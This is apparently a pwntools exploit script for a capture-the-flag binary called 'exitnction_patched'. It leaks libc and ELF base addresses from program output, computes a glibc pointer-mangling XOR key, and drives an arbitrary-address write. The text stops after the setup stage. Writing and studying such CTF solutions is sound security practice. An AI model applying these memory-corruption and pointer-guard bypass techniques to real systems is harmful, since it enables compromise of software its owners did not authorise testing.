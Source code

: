 ```python
from pwn import *
import re
import time

context.binary = elf = ELF("./exitnction_patched")
context.arch = 'amd64'

ld = ELF("./ld-2.39.so")

p = process([elf.path])
# p = remote("bb5489ea-a655-4205-89ad-8a47f1363e5e.openec.sc",31337,ssl=True)

libc = elf.libc


def rol64(x, r): return ((x << r) | (x >> (64-r))) & ((1<<64)-1)
def ror64(x, r): return ((x >> r) | (x << (64-r))) & ((1<<64)-1)

def get_xor_key(observed, original):
    if isinstance(observed, str): observed = int(observed, 16)
    if isinstance(original, str): original = int(original, 16)

    original = ror64(original, 0x11)

    return observed ^ original


def get_addresses(p):
    p.sendlineafter(b'> ', b'server')
    
    output = p.recvuntil(b'> ', drop=True).decode()
    
    license_match = re.search(r'License: Trial \((0x[0-9a-f]+)\)', output)
    license_addr = int(license_match.group(1), 16) if license_match else None
    
    backend_match = re.search(r'Backend: [\d.]+-stable \((0x[0-9a-f]+)\)', output)
    backend_addr = int(backend_match.group(1), 16) if backend_match else None
    
    return {
        'license': license_addr,
        'backend': backend_addr
    }


def write_email(p, recipient_addr, body):
    p.sendlineafter(b'> ', b'write')

    p.sendlineafter(b'0x', hex(recipient_addr)[2:].encode())
    p.sendlineafter(b'Enter Subject (8 chars): ', body[:8])
    p.sendlineafter(b'Enter Body (64 chars): ', body[8:])

def leak_addresses_and_setup(proc):
    addrs = get_addresses(proc)

    libc.address = addrs['backend'] - libc.symbols['exit']
    log.info(f"Leaked libc base: {hex(libc.address)}")

    license_addr = addrs['license']
    elf.address = license_addr - 16560
    log.info(f"Leaked elf base address: {hex(elf.address)}")

    proc.sendline(b"help")
    time.sleep(0.5)
```